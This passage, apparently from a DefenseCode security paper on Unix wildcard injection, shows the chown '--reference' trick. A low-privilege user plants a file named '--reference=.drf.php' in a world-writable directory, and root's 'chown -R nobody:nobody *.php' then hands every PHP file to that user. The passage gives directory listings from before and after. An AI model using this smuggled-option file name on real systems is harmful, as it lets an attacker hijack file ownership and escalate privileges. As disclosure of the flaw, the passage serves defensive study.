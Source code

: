 From: https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt

# [ 4.1 Chown file reference trick (file owner hijacking)

First really interesting target I've stumbled across is 'chown'.
Let's say that we have some publicly writeable directory with bunch of
PHP files in there, and root user wants to change owner of all PHP files to 'nobody'.
Pay attention to the file owners in the following files list.

```
[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
-rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
-rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php
```
Files in this public directory are mostly owned by the user named 'user',
and root user will now change that to 'nobody'.

```
[root@defensecode public]# chown -R nobody:nobody *.php
```

Let's see who owns files now...

```
[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
-rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
-rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php
```

